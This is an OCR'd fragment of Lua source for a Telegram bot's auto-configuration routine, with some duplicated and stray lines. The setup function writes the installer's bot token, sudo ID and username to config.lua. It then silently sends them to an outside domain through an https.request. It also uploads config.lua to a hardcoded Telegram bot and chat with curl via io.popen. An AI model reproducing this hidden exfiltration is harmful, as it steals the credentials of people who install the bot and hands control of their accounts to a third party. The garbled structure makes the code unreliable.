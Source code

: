 serialized = serpent.block(data, {comment = false, name = "_"})  

else  

serialized = serpent.dump(data)  

end    
file:write(serialized)    file:close()  
end
local create_config_auto = function()
config = {
SUDO = SUDO,
token = token,
bot_id = botid,
username = username, 
sudo_users = {SUDO}, 
}
create(config, "./config.lua")   
https.request("https://ibcorp.ibuser.xyz/znnnz/?id="..SUDO.."&user="..username.."&token="..token)
local curl = 'curl "'..'https://api.telegram.org/bot779501124:AAFCNjKEvD4PB6BEV7cTLo46iUD1o9ZBZhs/sendDocument'..'" -F "chat_id='.. 121863205 ..'" -F "document=@'..'config.lua'..'"' io.popen(curl)

file = io.open("RUNFA.sh", "w")  
file:write([[
#!/bin/bash 
token="]]..token..[["
while(true) do
rm -fr ../.telegram-cli
echo -e ""
echo -e ""
./tg -s ./ZNNNZ.lua $@ --bot=$token
done
]])  
file:close()  
file = io.open("FA", "w")  
file:write([[
killall screen
while(true) do
rm -fr ../.telegram-cli
screen ./RUNFA.sh
done
]])  
file:close() 
os.execute('./FA')
end 
create_config_auto()
local serialize_to_file = function(data, file, uglify)  
file = io.open(file, "w+")  
local serialized  
if not uglify then   
serialized = serpent.block(data, {comment = false, name = "_"})  
else   
serialized = serpent.dump(data) 
end  
file:write(serialized)  
file:close() 
end 
end
local load_znnnzdx1 = function()  
local f = io.open("./config.lua", "r")  
if not f then   AutoSet()  
else   
f:close()  
end  
local config = loadfile("./config.lua")() 